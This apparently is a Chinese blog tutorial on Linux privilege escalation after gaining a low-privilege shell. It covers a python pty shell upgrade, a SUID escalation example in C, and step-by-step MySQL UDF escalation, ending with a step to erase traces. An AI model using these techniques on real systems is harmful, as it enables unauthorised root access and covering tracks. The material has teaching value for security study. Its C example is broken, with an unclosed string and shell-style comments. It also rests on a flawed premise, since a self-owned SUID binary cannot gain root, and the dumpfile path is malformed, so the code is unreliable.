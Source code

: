 
获取shell后将shell转换为完全交互式的TTY：`python -c 'import pty;pty.spawn("/bin/bash")'`

## suid提权

此处涉及权限划分的知识。在Linux中通过权限位rwx实现文件权限管理。d目录，-普通文件。r read;w write;x execute
![](https://storage.tttang.com/media/attachment/2022/10/29/34a39b9b-d6ee-46d4-b30c-e1541d6bd09a.png)
所有者-所属者-其他用户

* suid作用于二进制可执行程序上，当执行程序时会临时切换身份为文件所有者身份为文件所有者身份。
  `chmod u+s FILE\chmod 4755 FILE` 添加SUID权限到二进制文件（在三位数据权限前，4代表添加到SUID位）
  `chmod u-s FILE\chmod 0xxx FILE` 删除suid
  ![](https://storage.tttang.com/media/attachment/2022/10/29/80b68f50-42f7-4a7a-aea3-ff233dc22f79.png)
* 文件属主为s表示设置了suid.没有x权限用大写S，表示权限无效

简而言之，任何用户执行有suid的文件时，都会以第一个权限运行

>所以利用suid提权的一个小案例就是：
>创建一个1.c文件,代码如下：
>
>```c
>#include<unistd.h>
>void main(){
>setuid(0); #root的uid=0，意味着执行后面的代码是root权限在执行
>system("su - root);#将当前环境转为root
>}
>```
>
>gcc 1.c -o 1编译
>chmod u+s 1 添加suid
>./1 执行
>su - root !=su root.su 只是切换了root身份，但shell环境依旧是普通用户，su - 用户和环境一起切换了。

## linux数据库提权

和windows一样的，udf提权

* 环境要求：配置中secure_file_priv=""，
  mysql具有root权限，具有sql语句执行权限，目录可读可写，selinux关闭


先获取低权限shell,提权过程：
![](https://storage.tttang.com/media/attachment/2022/10/29/f70d3b9a-84a7-46e5-be32-45cf0a28b84b.png)

1. 查看plugin目录路径 `show variables like '%plugin%';`
   `select unhex('udf十六进制') into dumpfile 'usr/lib64/mysql/plugin/1.so';` (plugin路径/1.so)
2. 声明函数 `create function sys_eval returns string soname '1.so';`
3. 执行高权限命令 `select sys_eval('whoami');`
4. 清除痕迹 `drop function sys_eval;`

windows soname动态链接库指向udf.dll，linux指向.so文件，所以声明的函数也要是.so文件里的。
详情请见上篇windows提权
